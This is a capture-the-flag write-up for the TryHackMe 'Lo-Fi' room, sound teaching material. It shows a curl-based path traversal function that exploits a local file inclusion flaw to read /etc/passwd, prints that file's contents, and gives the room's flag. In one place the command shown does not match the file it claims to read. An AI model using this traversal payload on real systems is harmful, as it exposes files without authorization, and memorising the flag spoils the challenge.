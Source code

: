 ![logo](./assets/logo.png)
# Lo-Fi
[tryhackme.com/r/room/lofi](https://tryhackme.com/r/room/lofi)
*Want to hear some lo-fi beats, to relax or study to? We've got you covered!*

**Answer the questions below**

***Climb the filesystem to find the flag!***


# Solution
## Enumeration/Gather Information
The challenge name and description heavily hints towards this being vulnerable to a *Local File Inclusion*, an ***LFI**. This was also the first thing I noticed when I visited the site. The URL says I'm on `http://10.10.85.184/?page=relax.php`, and the parameter `page` is the interesting part here.

![Image of the page and the url](./assets/page-parameter.png)

## Vulnerability
This parameter most likely just points out a file and renders it, so if I traverse the file tree and point out, for example, `/etc/passwd` I can prove that I can read arbitrary files.

![Image of the LFI file-read](./assets/etc-passwd.png)

## POC-Exploit
To simplify the process of traversing the file tree and cutting away all of the "fluff" for a better user experience (better experience for me to read file) I've created this small shell-function:
```bash
lfi() {
    file="$1"
    curl -s "http://10.10.85.184/?page=../../../../../../../../..$file" | pup ".card-body:first-of-type"  | head -n -51 | tail -n +2
}
```

> **Explanation**:
> 1. I create a function where I pass the absolute path of the file I want to read on the target file system as an argument.
> 2. I `curl` the website with the file path and parse it using *[pup](https://github.com/ericchiang/pup)*.
> 3. I use `head` and `tail` to clean up some extra lines since I didn't feel like doing a deep-dive into parsing with `pup`.

When I now execute the following command I get the output in a much nicer format:
```bash
$ lfi "/etc/passwd"
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/bin/sh
bin:x:2:2:bin:/bin:/bin/sh
sys:x:3:3:sys:/dev:/bin/sh
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/bin/sh
man:x:6:12:man:/var/cache/man:/bin/sh
lp:x:7:7:lp:/var/spool/lpd:/bin/sh
mail:x:8:8:mail:/var/mail:/bin/sh
news:x:9:9:news:/var/spool/news:/bin/sh
uucp:x:10:10:uucp:/var/spool/uucp:/bin/sh
proxy:x:13:13:proxy:/bin:/bin/sh
www-data:x:33:33:www-data:/var/www:/bin/sh
backup:x:34:34:backup:/var/backups:/bin/sh
list:x:38:38:Mailing List Manager:/var/list:/bin/sh
irc:x:39:39:ircd:/var/run/ircd:/bin/sh
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/bin/sh
nobody:x:65534:65534:nobody:/nonexistent:/bin/sh
libuuid:x:100:101::/var/lib/libuuid:/bin/sh
```

## Catching the flag
So, now I can guess my way around the file-system and read files. I wonder where the flag might be? `/flag.txt`?
```bash
$ lfi "/etc/passwd"
flag{e4478e0eab69bd642b8238765dcb7d18}
```

Oh wow! I guessed correctly on the first try?! Sweet!

# Flag
**Flag:** `flag{e4478e0eab69bd642b8238765dcb7d18}`
